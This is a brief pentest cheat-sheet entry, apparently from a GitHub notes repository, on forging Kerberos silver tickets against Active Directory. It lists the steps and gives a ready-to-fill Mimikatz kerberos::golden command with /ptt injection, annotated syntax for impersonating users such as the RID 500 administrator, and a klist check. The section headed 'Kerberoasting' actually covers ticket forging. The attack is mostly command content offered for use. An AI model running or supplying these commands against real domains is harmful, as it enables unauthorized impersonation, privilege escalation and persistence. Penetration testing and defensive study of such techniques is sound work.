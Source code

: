 ## TCP 88  kerberos


### Kerberoasting

##### Generating a silver ticket

1. Obtain access to a domain user account
2. Obtain a password or hash for a service account on a computer or the computer account itself.
3. Obtain a domain SID
```
whoami /user
#domain sid value is all SID characters except for the last 4.
```

###### Using Mimikatz
```
privilege::debug
kerberos::golden /sid:<domain sid> /domain:<domain name> /ptt /target:<host> /service:<service being attacked> /rc4<NTLM password hash> /id:<forged user id> /user:<forged username>

syntax reference:
/domain – the fully qualified domain name. In this example: “lab.adsecurity.org”.
/sid – the SID of the domain.
/user – username to impersonate
/groups (optional) – group RIDs the user is a member of (the first is the primary group)
default: 513,512,520,518,519 for the well-known Administrator’s groups (listed below).
/ticket (optional) – provide a path and name for saving the Golden Ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use.
/ptt – as an alternate to /ticket – use this to immediately inject the forged ticket into memory for use.
/id (optional) – user RID. Mimikatz default is 500 (the default Administrator account RID).
/startoffset (optional) – the start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
/endin (optional) – ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).
/renewmax (optional) – maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).
```

##### Checking ticket in memory
```
#from powershell
klist
```
#### Additional references
https://adsecurity.org/?p=2011

